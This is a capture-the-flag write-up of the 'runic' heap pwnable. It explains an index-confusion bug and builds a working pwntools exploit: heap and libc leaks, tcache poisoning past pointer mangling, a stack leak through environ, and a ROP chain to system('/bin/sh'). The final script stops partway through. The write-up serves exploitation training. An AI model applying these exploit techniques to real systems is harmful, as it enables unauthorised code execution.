# Runic
This week, my team played HackTheBox CTF called htb apocalypse and during the CTF i was working on the insane pwnable named runic. The challenge took good 5h to solve after initially discovering the vulnerability. This is a bit more detailed writeup than usual where I will try and show how the exploit works internaly with heap layouts present.

# Reversing

We were given a binary named <b>runic</b> that was written in C and linked with 2.34 libc. Both the linker library and the libc were provided and the binary was already properly linked. Kudos to challenge author for that. Usually when starting a pwnable challenge we first check the protections and here we can see that everything is enabled 



## main 

It is the usual menu challenge we all love to hate (so we are probably facing a heap challenge). 



Looking at the main function in ghidra( or any other disassembler) 



As per the menu, we can create, delete, view and edit a rune.

## setup

But before all that, what happens is that a **setup** function gets called. And I initially missed that during the competition or rather thought that it is just the usual buffering function to make interacting with the challenge over network easier. 



And while yes, that is the case as the virtual buffers get nulled, but also there is another for loop that does some assignments. What it does is fill up the **MainTable** with pointers at different offsets of **items** variable. (Both are stored in bss).



A more readable version

## create




The function looks unreadable (at least not to non-reversers...) so lets firstly take some time to create some structures and provide ghidra some context as to what it's dealing with (with this I want to stress the importance of taking your time with reversing since it will pay off on the long run ). Based on the pointer casts and derefrences I figured we are dealing with 2 different structures here. the first one I named rune and the second one rune_wrap

rune:




rune_wrap:




after assigning all the variables the proper types the create function looks something like this :



Moving forward I will only be posting screenshots of restructured functions.

So finally we can answer the question: what does create do? 

It asks us for a rune name, reads in 8 bytes of data, calls **hash** on the data we provided and then decides if the name we provided is already taken and if it's not we can input the length we want and if that is smaller than 0x61 we get a new rune allocated with malloc based on the structures **rune** and **rune_wrap** listed above.


## edit



Edit asks us for rune name we want to edit and if it exists we can edit it. Feel free to digest the function on your own since it's fairly readable.


## show



Show just prints the content of a rune we select.

## delete



Similarly to show, delete frees a rune we specify and memsets the table entry with 0-s so no UAF-s here.


## hash



the hash function plays a vital role in this challenge so I also included it here. What it does is just sums up 8 bytes starting at pointer **param_1** and returns the value(line 12 is just to make sure the value is not larger than 0x3f).

# Vulnerability

If we take a closer look at how functions **create** and **edit** generate indexes of the runes to operate on. Firstly the **hash** of our input is taken and then strcpy is used to copy that buffer that was hashed to rune_wrap metadata to represent an index of a rune.

Well it turns out that problems start to form when we input a name like this: "\x01\x00\x01". This would hash out to 2 but when the strcpy would try to copy this index it would only copy the first "\x01" and so the actual index stored would be 1 not 2.

How this can be leveraged to a heap overflow is by creating 2 runes with different sizes, then editing the smaller one with the size of the bigger one.


# Exploitation


## tldr;

- Use the HOF to leak heap with the tcache pointer
- Overflow the size of a chunk to get it into unsorted bin
- repeat the leak process for libc after free-ing the fake unsorted bin chunk
- poison tcache to get a chunk on libc environ
- read environ to leak stack
- posion tcache again to allocate chunk on stack
- rop with libc gadgets to system("/bin/sh")
- Profit!


## Use the HOF to leak heap with the tcache pointer

Before we start we define some helper functions:

``` py

context.terminal = ['terminator','-e']

p = process("./runic")

# gs = """
#     b * show

# """
# pid = gdb.attach(p,gdbscript=gs)

def create(name,length,contents):
    p.sendlineafter(b"Action: \n", b'1')
    p.sendafter(b'\n',name)
    p.sendafter(b'\n',length)
    p.sendafter(b'\n',contents)

def edit(name_old,name_new,contents_new):
    p.sendlineafter(b"Action: \n", b'3')
    p.sendafter(b'\n',name_old)
    p.sendafter(b'\n',name_new)
    p.sendafter(b'\n',contents_new)

def delete(name):
    p.sendlineafter(b"Action: \n", b'2')
    p.sendafter(b'\n',name)

def view_(name):
    import time
    time.sleep(3)
    p.sendlineafter(b"Action: \n",b'4')
    p.sendafter(b'\n',name)


def padd(x):
    return x.ljust(8,b'\x00')
```

Then we proceede by creating 3 chunks like this (A,B,C)

```python
create(padd(b'\x05'),'15','BBBBBBBB')
create(padd(b'\x0b'),'8','FFFFFFFF')
create(padd(b'\x01'),'50','CCCCCCCC')
```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000005	0x4242424242424242 
0x5565109c02b0:	0x0000000000000000	0x0000000000000021 <- B
0x5565109c02c0:	0x000000000000000b	0x4646464646464646
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000020ce1

```

then we delete chunk B to get it into tcache and put a pointer in it's fd field, we edit A with the size of C (using the confusion vulnerability) and overflow up to the pointer so when we now view Br, we will get a leak. 

```python

delete(padd(b'\x0b'))

edit(padd(b'\x05'),padd(b'\x01\x00\x05'),'X'*24)
view_(padd(b'\x06')) # it's still the same chunk just index gets incremented because hash(b'\x01\x00\x05') = new_index = 6
```


heap layout :


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00000005565109c0	0x7c13d35e6a1c315a
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000020ce1

```

we can see that when we view B, what will get printed out is 24 * 'X' + an extra pointer

```
0x5565109c02c0:	0x00000005565109c0 
```

if we shift 0x556510c0 by 12 to the left we get 0x5565109c0000 which is the heap base (we will discuss why the shift in due time)

with this we got the heap leak so now we need the libc leak...

# Overflow the size of a chunk to get it into unsorted bin

Before we can leak libc we first have to get a libc pointer on the heap. How this usually happens is through the unsorted bin. But in order to do that we would have to allocate a chunk of size > 0x408. But if you look closely at the **create** function allocations of size > 0x60 are not allowed.

What we do is we use our overflow to change the size of B to be >0x408 (i used 0x501) then we free it and it will end up in the unsorted bin. Then we allocate it back from the unsorted bin and use the overflow again to overflow up to the libc pointer and then view to print it out. 


Before we do all that we first have to make a fake chunk at B+0x500 where free will expect the next chunk to be. If there is nothing at B+0x500 free will detect heap corruption and abort. I was to lazy to do calculations so I just filled all of the padding chunks with fake chunk metadata.

```py

# padding za fake chunk
for i in range(15,30):
    create(padd(int.to_bytes(i,1,'little')), '96',b'R'*24 + b'\x00'*8 + p64(0x41))

```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00000005565109c0	0x7c13d35e6a1c315a
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0 
0x5565109c0330:	0x000000000000000f	0x5252525252525252
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000041 <- Fake 0 
0x5565109c0360:	0x0000000000000000	0x0000000000000000
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071 <- Pad 1
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041 <- Fake 1
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000

...

0x5565109c08d0:	0x0000000000000000	0x0000000000000071 <- Pad 13
0x5565109c08e0:	0x000000000000001c	0x5252525252525252
0x5565109c08f0:	0x5252525252525252	0x5252525252525252
0x5565109c0900:	0x0000000000000000	0x0000000000000041 <- Fake 13
0x5565109c0910:	0x0000000000000000	0x0000000000000000
0x5565109c0920:	0x0000000000000000	0x0000000000000000
0x5565109c0930:	0x0000000000000000	0x0000000000000000
0x5565109c0940:	0x0000000000000000	0x0000000000000071 <- Pad 14
0x5565109c0950:	0x000000000000001d	0x5252525252525252
0x5565109c0960:	0x5252525252525252	0x5252525252525252
0x5565109c0970:	0x0000000000000000	0x0000000000000041 <- Fake 14
0x5565109c0980:	0x0000000000000000	0x0000000000000000
0x5565109c0990:	0x0000000000000000	0x0000000000000000
0x5565109c09a0:	0x0000000000000000	0x0000000000000000
0x5565109c09b0:	0x0000000000000000	0x0000000000020651
```

So the top of the heap still looks the same as it has before with our A,B,C still at the top but there are 15 padding chunks also present and within those also 15 fake chunks.

now what we need to do is to change the size of B to 0x501, we use our HOF again to achieve that, then we have to get the pointer to B back from the tcache, we can just do another **create** of the same size, and then we free B to put it into unsorted bin.


``` py

edit(padd(b'\x06'),padd(b'\x01\x00\x06'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) # change B size

create(padd(int.to_bytes(31,1,'little')), '8',b'H'*8) # get pointer to B back from tcache so we can free it again
 
delete(padd(b'\x1f')) # free B to put it into unsorted bin

```


heap layout : 

```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000501 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c0330:	0x000000000000000f	0x5252525252525252
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000041 <- Fake 0
0x5565109c0360:	0x0000000000000000	0x0000000000000000
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041 <- Fake 0
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000

...

0x5565109c0780:	0x0000000000000000	0x0000000000000071 <- Pad 10
0x5565109c0790:	0x0000000000000019	0x5252525252525252
0x5565109c07a0:	0x5252525252525252	0x5252525252525252
0x5565109c07b0:	0x0000000000000500	0x0000000000000040 <- Fake 10
0x5565109c07c0:	0x0000000000000000	0x0000000000000000
0x5565109c07d0:	0x0000000000000000	0x0000000000000000
0x5565109c07e0:	0x0000000000000000	0x0000000000000000
0x5565109c07f0:	0x0000000000000000	0x0000000000000071 <- Pad 11
0x5565109c0800:	0x000000000000001a	0x5252525252525252
0x5565109c0810:	0x5252525252525252	0x5252525252525252
0x5565109c0820:	0x0000000000000000	0x0000000000000041 <- Fake 11
0x5565109c0830:	0x0000000000000000	0x0000000000000000
0x5565109c0840:	0x0000000000000000	0x0000000000000000
0x5565109c0850:	0x0000000000000000	0x0000000000000000
0x5565109c0860:	0x0000000000000000	0x0000000000000071 <- Pad 12
0x5565109c0870:	0x000000000000001b	0x5252525252525252
0x5565109c0880:	0x5252525252525252	0x5252525252525252
0x5565109c0890:	0x0000000000000000	0x0000000000000041 <- Fake 12
0x5565109c08a0:	0x0000000000000000	0x0000000000000000
0x5565109c08b0:	0x0000000000000000	0x0000000000000000
0x5565109c08c0:	0x0000000000000000	0x0000000000000000
0x5565109c08d0:	0x0000000000000000	0x0000000000000071 <- Pad 13
0x5565109c08e0:	0x000000000000001c	0x5252525252525252
0x5565109c08f0:	0x5252525252525252	0x5252525252525252
0x5565109c0900:	0x0000000000000000	0x0000000000000041 <- Fake 13
0x5565109c0910:	0x0000000000000000	0x0000000000000000
0x5565109c0920:	0x0000000000000000	0x0000000000000000
0x5565109c0930:	0x0000000000000000	0x0000000000000000
0x5565109c0940:	0x0000000000000000	0x0000000000000071 <- Pad 14
0x5565109c0950:	0x000000000000001d	0x5252525252525252
0x5565109c0960:	0x5252525252525252	0x5252525252525252
0x5565109c0970:	0x0000000000000000	0x0000000000000041 <- Fake 14
0x5565109c0980:	0x0000000000000000	0x0000000000000000
0x5565109c0990:	0x0000000000000000	0x0000000000000000
0x5565109c09a0:	0x0000000000000000	0x0000000000000000
0x5565109c09b0:	0x0000000000000000	0x0000000000020651
```

we can see above that Fake 10 is a bit different than the other fake chunks, it has prev size set to 0x500 and prev in use bit set to 0 this means our fake chunk B passed the checks in free and got successfully inserted into unsorted bin. We can also so in B metadata that it contains libc pointers


# repeat the leak process for libc after free-ing the fake unsorted bin chunk

We repeat the same process as for the heap leak to read the libc pointer

``` py


edit(padd(b'\x07'),padd(b'\x01\x00\x07'),'X'*24) ###

view_(padd(b'\x08'))

```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071
```

# poison tcache to get a chunk on libc environ

Before moving forward we first have to clean up the mess we created after overflowing into B to leak libc, we have to do that because as it is now, there is a chunk present on the heap with size  0x5858585858585858 which is... well... a lot. 

so to do that we overflow again into B and fix the mess

``` py

edit(padd(b'\x08'),padd(b'\x01\x00\x08'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) ###
```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000501 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071
```

now B is back to it's original fake size of 0x501.

For a successful tcache poison we first need some pointers inside tcache. What we want is this X->Y->Z where we overwrite X in to libc_environ which we calculate using the libc leak and get X->libc_environ.

lets do just that!

We start of by getting X,Y and Z into tcache(X,Y,Z correspond excatly to Pad 0,4,5). Pad 4,5 are irrelevant, the important thing is that pad 0 is the last of the 3 getting freed and so it will be at the head of the tcache list and we can overwrite it's pointer.

``` py
delete(padd(b'\x13')) # Pad 4 -> Z
delete(padd(b'\x14')) # Pad 5 -> Y
delete(padd(b'\x0f')) # Pad 0 -> X
```


```py

create(padd(int.to_bytes(33,1,'little')), '64',b'T'*8) #allocation in oreder to allign overlapping chunk B with Pad 0 

kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)


create(padd(int.to_bytes(34,1,'little')), '64',b'T'*8 + b'\x00'*8+p64(0x71)+ p64(ftakni_ga_not)) #this allocation returns a pointer pointing exactly 0x20 above Pad 0

```
heap layout :

```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000051
0x5565109c02c0:	0x00007f17c31d0021	0x5454545454545454
0x5565109c02d0:	0x00005565109c02b0	0x00005565109c02b0 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000051
0x5565109c0310:	0x00007f17c31d0022	0x5454545454545454
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c0330:	0x00007f12954f1770	0x7c13d35e6a1c315a <- POISON!
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000461 <- B
0x5565109c0360:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000
```
We have arrived at the part where I talk about the shifting stuff. This is so called pointer mangling and was introduced in libc to prevent partial heap overwrites. The mangling works as shown by the equations. Figuring out exactly how it works is an exercise left for the reader :) (it's as easy as a macro in C)

``` py

kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)

```

after we have successfully poisoned the tcache we have to make 2 more allocations and the second one will be where malloc should return us a pointer to glibc_environ

# read environ to leak stack

``` py
create(padd(int.to_bytes(35,1,'little')), '96',b'K'*8) ##
create(padd(int.to_bytes(36,1,'little')), '96',b'I'*8) ## this one gets placed in libc_environ since we poisoned the tcache

view_(padd(b'\x24'))
```

With that we have successfully leaked the stack


# posion tcache again to allocate chunk on stack + rop with libc gadgets to system("/bin/sh")

Since we have shown already how poisoning tcache works and i presume all of peaople reading this have done ROP before I will make this brief.

Again we start with getting 3 chunks into tcache in this case Pad 1,2,3
where again 2,3 are irrelevant just the 1 matters. We poison tcache now with a stack address (return address of create function since that will be the last function we call before ROP-ing)

We generate a rop chain as usual pop_rdi_ret -> bin_sh -> system using gadgets from libc since we haven't leaked PIE (At this point I would like to share with you how dead ROP is at least when it comes to csu that got removed in libc 35 I think)


``` py 
print("Trying to fork /bin/sh")
kjer_smo = leak + 0x3a0

kje_bi_radi_bli = leak_stack -0x158
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)


delete(padd(b'\x12'))
delete(padd(b'\x11'))
delete(padd(b'\x10'))

create(padd(int.to_bytes(37,1,'little')), '74',b'U'*0x28 + b'\x00'* 8 + p64(0x71)  +p64(ftakni_ga_not) )

pop_rdi_ret = libc_base +0x000000000002daa2
ret = libc_base + 0x000000000002d446
system = libc_base + 0x00000000004e320
bin_sh = libc_base + 0x1b4689


rop = p64(pop_rdi_ret)
rop += p64(bin_sh)
rop += p64(system)


create(padd(int.to_bytes(38,1,'little')), '96',b"N" *8 )
create(padd(int.to_bytes(40,1,'little')), '96',rop )
print("SUCCESS!")
print("Enjoy your shell :)")
```

we overwrite the return address with our rop and spawn a shell.

# PROFIT!

# Final Exploit :


``` py 
from pwn import * 

context.terminal = ['terminator','-e']

null_name = '\x01\x00\x01'
# 161.35.168.118:31503
# 104.248.169.117:32003
# 167.71.143.44:32695
#p = remote("167.71.143.44",32695)
p = process("./runic")

gs = """
    b * delete

"""
pid = gdb.attach(p,gdbscript=gs)

def create(name,length,contents):
    p.sendlineafter(b"Action: \n", b'1')
    p.sendafter(b'\n',name)
    p.sendafter(b'\n',length)
    p.sendafter(b'\n',contents)

def edit(name_old,name_new,contents_new):
    p.sendlineafter(b"Action: \n", b'3')
    p.sendafter(b'\n',name_old)
    p.sendafter(b'\n',name_new)
    p.sendafter(b'\n',contents_new)

def delete(name):
    p.sendlineafter(b"Action: \n", b'2')
    p.sendafter(b'\n',name)

def view_(name):
    import time
    time.sleep(3)
    p.sendlineafter(b"Action: \n",b'4')
    p.sendafter(b'\n',name)


def padd(x):
    return x.ljust(8,b'\x00')

#=================LEAK HEAP=================

create(padd(b'\x05'),'15','BBBBBBBB')
create(padd(b'\x0b'),'8','FFFFFFFF')
create(padd(b'\x01'),'50','CCCCCCCC')
# import time
# time.sleep(3)
delete(padd(b'\x0b'))

edit(padd(b'\x05'),padd(b'\x01\x00\x05'),'X'*24)
view_(padd(b'\x06'))

p.recvuntil(b'X'*24)
leak = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00')) << 12
print('leak heap',hex(leak))


#=================LEAK LIBC=================

# padding za fake chunk
for i in range(15,30):
    create(padd(int.to_bytes(i,1,'little')), '96',b'R'*24 + b'\x00'*8 + p64(0x41))


edit(padd(b'\x06'),padd(b'\x01\x00\x06'),b'BBBBBBBB'+b'\x00'*8+p64(0x501))

create(padd(int.to_bytes(31,1,'little')), '8',b'H'*8)

delete(padd(b'\x1f'))

edit(padd(b'\x07'),padd(b'\x01\x00\x07'),'X'*24) ###

view_(padd(b'\x08'))

p.recvuntil(b'X'*24)
leak_libc = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00'))
libc_base = leak_libc -0x1f2cc0

print('leak_libc ',hex(libc_base))

#=================LEAK STACK=================

edit(padd(b'\x08'),padd(b'\x01\x00\x08'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) ###

delete(padd(b'\x13'))
delete(padd(b'\x14'))
delete(padd(b'\x0f'))


create(padd(int.to_bytes(33,1,'little')), '64',b'T'*8)
kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)

create(padd(int.to_bytes(34,1,'little')), '64',b'T'*8 + b'\x00'*8+p64(0x71)+ p64(ftakni_ga_not))
create(padd(int.to_bytes(35,1,'little')), '96',b'K'*8) ##
